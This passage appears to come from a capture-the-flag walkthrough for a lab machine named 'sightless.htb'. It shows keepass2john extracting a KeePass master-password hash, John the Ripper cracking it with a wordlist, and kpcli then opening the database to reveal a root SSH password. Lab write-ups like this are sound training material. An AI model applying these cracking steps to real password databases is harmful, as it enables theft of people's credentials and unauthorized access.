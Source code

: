 
To do this, use keepass2john to obtain the hash of the master password.


```bash
keepass2john Database.kdb > data.hash    
Inlining Database.kdb
```


This will produce a file containing the hash which can then be cracked by John the Ripper.


```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt data.hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 600000 for all loaded hashes
Cost 2 (version) is 1 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bulldogs         (Database.kdb)     
1g 0:00:00:17 DONE (2025-01-14 04:15) 0.05621g/s 61.15p/s 61.15c/s 61.15C/s kucing..morena
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```


Cracking the hash reveals the password "bulldogs". Now, the command line tool kpcli, which is used to access KeePass files, can be used to access the database and obtain any confidential data.


```bash
$ kpcli --kdb=Database.kdb
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
General/
kpcli:/> cd General
kpcli:/General> ls
=== Groups ===
eMail/
Homebanking/
Internet/
Network/
sightless.htb/
Windows/
kpcli:/General> cd sightless.htb
kpcli:/General/sightless.htb> ls
=== Groups ===
Backup/
kpcli:/General/sightless.htb> cd Backup
kpcli:/General/sightless.htb/Backup> ls
=== Entries ===
0. ssh                                                                    
kpcli:/General/sightless.htb/Backup> show -f ssh

 Path: /General/sightless.htb/Backup/
Title: ssh
Uname: root
 Pass: q6gnLTB74L132TMdFCpK
  URL: 
Notes: 
```